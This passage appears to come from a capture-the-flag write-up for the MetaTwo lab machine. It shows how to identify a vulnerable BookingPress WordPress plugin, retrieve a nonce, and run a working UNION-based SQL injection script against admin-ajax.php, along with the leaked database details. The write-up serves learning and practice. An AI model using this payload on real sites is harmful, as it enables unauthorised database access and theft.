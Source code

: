 On the web app UI, booked an appt, I can create events, humm:

![image-20221129214108707](../../../../images/articles/metatwo-writeup/image-20221129214108707.png)

After reviewing the /events page's source code I found this:

```html
<link 
      rel='stylesheet' 
      id='bookingpress_element_css-css'  
      href='http://metapress.htb/wp-content/plugins/ bookingpress-appointment-booking/css/bookingpress_element_theme.css?ver=1.0.10' 
      media='all' />
```

The page is using plugin "bookingpress-appointment-booking" on version "1.0.10" and found this SQL vulnerability: https://wpscan.com/vulnerability/388cd42d-b61a-42a4-8604-99b812db2357

As described in the Document, create an appointment with its shortcode embedded and find the "nonce":

```bash
~» curl -s 'http://metapress.htb/thank-you/?appointment_id=Mw==' | grep -i nonce
var postData = { action:'bookingpress_generate_spam_captcha', _wpnonce:'221f0d0bf9' };
```

The PoC is working:

```bash
.../infosec/p8/metatwo» cat sql.sh
#!/bin/bash
SQLI="UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -"
curl \
        -s 'http://metapress.htb/wp-admin/admin-ajax.php' \
        --data \
        "action=bookingpress_front_get_category_services&_wpnonce=221f0d0bf9&category_id=33&total_service=-7502) ${SQLI}"

.../infosec/p8/metatwo» bash sql.sh  | jq
[
  {
    "bookingpress_service_id": "10.5.15-MariaDB-0+deb11u1",
    "bookingpress_category_id": "Debian 11",
    "bookingpress_service_name": "debian-linux-gnu",
    "bookingpress_service_price": "$1.00",
    "bookingpress_service_duration_val": "2",
    "bookingpress_service_duration_unit": "3",
    "bookingpress_service_description": "4",
    "bookingpress_service_position": "5",
    "bookingpress_servicedate_created": "6",
    "service_price_without_currency": 1,
    "img_url": "http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/images/placeholder-img.jpg"
  }
]
```
